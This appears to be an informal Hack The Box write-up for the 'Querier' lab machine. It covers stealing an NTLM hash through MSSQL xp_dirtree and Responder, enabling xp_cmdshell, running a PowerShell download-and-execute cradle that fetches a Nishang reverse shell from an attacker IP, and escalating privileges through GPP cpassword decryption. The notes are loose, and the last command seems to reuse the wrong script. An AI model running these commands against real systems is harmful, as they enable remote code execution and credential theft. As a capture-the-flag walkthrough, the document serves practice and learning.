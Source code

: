 ```yaml
---
layout: post
title: Querier - HTB
subtitle: Medium box
cover-img: /assets/img/path.jpg
thumbnail-img: /assets/img/thumb.png
share-img: /assets/img/path.jpg
tags: [books, test]
---
```


nmap revealed smb

smb got an xml file containing macro with creds for mssql server running on port 1433

using [mssqlclient.py](http://mssqlclient.py)(from impacket) logged into mssql server. turned responder on and run the following command in the mssql server pointing to my box with responder:

```bash
exec xp_dirtree '\\10.10.10.10\share\file'
```

crack the hash with john and then go back into the mssql server with the new credentials

now able to run commands ( have to enable first with the following command):

```bash
enable_xp_cmdshell
```

now we need to prepare a rev shell fire it up and get a real shell on the box. using nishang powershellreverce tcp

with this payload at the bottom (that’s how it works ? )

```bash
Invoke-PowerShellTcp -Reverse -IPAddress 10.10.10.10 -Port 4444
```

now that we sorted the powershell we fire up a python server, netcat listener and we get it over to the box using the mssql shell and the following command;

```bash
xp_cmdshell powershell iex(new-object net.webclient).downloadstring(\"http://10.10.10.10/Invoke-PowerShellTcp.ps1\")
```

and now we got real shell on the box. now we can load up powersploit powerup script. make sure you add at the end of it Invoke-AllChecks same as we done with the payload in the revshell then just bring it over to the box in the same way using the same payload without the \:

```bash
iex(new-object net.webclient).downloadstring("http://10.10.10.10/Invoke-PowerShellTcp.ps1")
```

that will reveal the cpassword storred in Groups.xml it may even decrypt it for us if not then we can just take the cpassword from within the file and use gpp-decrypt “cpassword” and will decrypt it for us

